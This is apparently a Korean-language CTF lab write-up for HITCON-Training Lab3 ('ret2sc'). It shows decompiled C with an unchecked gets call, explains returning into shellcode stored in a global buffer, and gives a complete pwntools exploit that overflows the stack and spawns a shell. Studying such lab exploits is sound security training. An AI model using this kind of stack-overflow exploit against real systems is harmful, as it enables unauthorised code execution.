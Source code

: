 ```yaml
---
title: "[HITCON-Training]Lab3"
date: 2019-11-17
ctf: HITCON-Training
layout: post
published : false
---
```


return to shellcode 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-14h]
 
  setvbuf(stdout, 0, 2, 0);
  printf("Name:");
  read(0, &name, 50u);
  printf("Try your best:");
  return (int)gets(&s);
}
```

name은 bss에 저장된 전역변수이다.

name에 shellcode를 넣고 gets로 return을 name으로 해주면 shellcode가 실행될거다.

```python
from pwn import *
 
e = ELF('./ret2sc')
p = process('./ret2sc')
 
p.sendlineafter(':',asm(shellcraft.i386.sh()))
pay = 'A'*(0x1c+4)
pay += p32(0x0804A060)
p.sendlineafter(':',pay)
p.interactive()
```

